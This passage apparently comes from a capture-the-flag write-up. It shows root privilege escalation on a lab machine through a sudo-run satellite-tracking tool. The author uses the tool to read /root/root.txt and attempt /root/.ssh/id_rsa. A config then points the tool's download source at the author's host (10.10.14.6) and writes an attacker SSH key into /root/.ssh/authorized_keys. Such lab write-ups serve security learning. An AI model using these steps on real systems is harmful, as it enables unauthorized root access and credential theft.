    jovian@jupiter:~$ sudo sattrack 
    Satellite Tracking System
    Get:0 file:///root/root.txt
    Get:1 file:///root/.ssh/id_rsa
    Couldn't open file /root/.ssh/id_rsa
    Satellites loaded
    No sats
    

Still, `root.txt` is in the tleroot directory:

    
    
    jovian@jupiter:~$ ls /tmp/tle/
    'gp.php?GROUP=starlink&FORMAT=tle'   id_rsa   noaa.txt   root.txt   test   weather.txt
    jovian@jupiter:~$ cat /tmp/tle/root.txt
    239169f5************************
    

### File Write -> SSH

One way to get a shell as root would be to write an SSH key into
`/root/.ssh/authorized_keys`. I’ll host my public key in a file named
`authorized_keys` on my webserver, and add that to the config. I’ll also set
the `tleroot` to `/root/.ssh` so that it writes there:

    
    
    {
            "tleroot": "/root/.ssh/",
            "tlefile": "weather.txt",
            "mapfile": "/usr/local/share/sattrack/map.json",
            "texturefile": "/usr/local/share/sattrack/earth.png",
    
            "tlesources": [
                    "http://10.10.14.6/authorized_keys"
            ],
    
            "updatePerdiod": 1000,
    
            "station": {
                    "name": "LORCA",
                    "lat": 37.6725,
                    "lon": -1.5863,
                    "hgt": 335.0
            },
    
            "show": [
            ],
    
            "columns": [
                    "name",
                    "azel",
                    "dis",
                    "geo",
                    "tab",
                    "pos",
                    "vel"
            ]
    }
    